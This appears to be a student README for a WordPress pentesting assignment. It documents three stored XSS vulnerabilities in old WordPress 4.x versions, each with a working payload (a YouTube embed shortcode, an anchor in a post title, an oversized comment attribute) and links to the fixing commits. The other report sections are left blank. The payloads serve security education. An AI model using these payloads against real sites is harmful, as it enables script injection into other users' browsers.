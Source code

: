 # Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: In the content of a post, enter the following:
        ```
        $ [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(12312313)\x3e'][/embed]
        ```
        Then, go to the post. The XSS will appear.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
### 2. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: In the title of a post, enter the following:
        ```
        $ <a href="</a><a title=" onmouseover=alert('xss')  ">link</a>
        ```
  - [ ] Affected source code:
    - wp-includes/kses.php wp-includes/shortcodes.php
### 3. (Required) Stored Cross-Site Scripting
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Suppose LARGE represents a 64 KB block of text. Then enter this into a comment:
        ```
        $ <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px LARGE'></a>
        ```
        The XSS will then appear persistently.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
